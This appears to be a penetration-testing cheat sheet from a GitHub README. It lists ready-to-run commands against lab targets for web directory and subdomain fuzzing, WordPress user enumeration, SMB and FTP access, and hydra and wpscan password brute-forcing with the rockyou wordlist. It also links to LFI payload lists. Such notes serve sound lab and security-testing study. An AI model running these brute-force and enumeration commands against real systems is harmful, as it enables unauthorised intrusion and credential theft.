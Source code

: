 
https://github.com/gmelodie/awesome-wordlists

### 1. WEB

- __GENERAL INFORMATION__:
```bash
nikto -h 192.168.100.10
```

- __FILE/DIRECTORY__:
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-big.txt -u http://localhost
dirsearch -u http://localhost
wfuzz -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://192.168.100.103/gitweb/FUZZ --hc 404,403
```

- __DOMAINS__:
```bash
wfuzz -w /usr/share/wordlists/amass/all.txt -u http://10.10.162.126 -H 'Host: FUZZ.internal.thm' --hl 375
```

- __WORDPRESS__:
```bash
wpscan -U admin --url http://internal.thm/blog -P /usr/share/wordlists/rockyou.txt -T 20
wpscan --url http://internal.thm/blog

INFORMATION DISCLOSURE:
http://internal.thm/blog/index.php/wp-json
http://internal.thm/blog/index.php/wp-json/wp/v2/users 
```

- __LFI__
https://highon.coffee/blog/lfi-cheat-sheet/
https://github.com/emadshanab/LFI-Payload-List

### 2. SMB

```bash
smbmap -H <ip>
smbclient //<ip>/<res>
smbclient //<ip>/<res> -U <DOMAIN>/<USERNAME> --password <PASSWORD>
```

### 3. FTP

```bash
ftp <ip>
```

### 4. CREDENTIAL BRUTEFORCE

```bash
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.100.104 http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=&Submit=Sign+in:Invalid username or password"

sudo hydra -l qiu -P /usr/share/wordlists/rockyou.txt 192.168.100.104 https-post-form "/admin/login.php:password=^PASS^&loginsubmit=Submit:User name or password incorrect"
```

